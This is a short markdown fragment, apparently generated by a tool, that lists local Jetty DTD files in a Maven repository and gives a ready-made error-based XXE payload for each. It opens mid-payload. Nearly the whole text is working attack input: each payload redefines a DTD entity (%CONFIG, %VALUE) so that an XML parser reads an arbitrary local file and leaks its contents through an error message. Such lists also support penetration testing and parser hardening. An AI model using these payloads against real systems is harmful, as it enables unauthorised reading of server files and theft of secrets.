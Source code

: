 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/9.3.3.v20150827/jetty-xml-9.3.3.v20150827.jar!/org/eclipse/jetty/xml/configure_6_0.dtd`

**Injectable entity:** `%CONFIG`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/9.3.3.v20150827/jetty-xml-9.3.3.v20150827.jar!/org/eclipse/jetty/xml/configure_6_0.dtd">

    <!ENTITY % CONFIG 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/9.3.3.v20150827/jetty-xml-9.3.3.v20150827.jar!/org/eclipse/jetty/xml/configure_9_0.dtd`

**Injectable entity:** `%VALUE`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/9.3.3.v20150827/jetty-xml-9.3.3.v20150827.jar!/org/eclipse/jetty/xml/configure_9_0.dtd">

    <!ENTITY % VALUE 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```
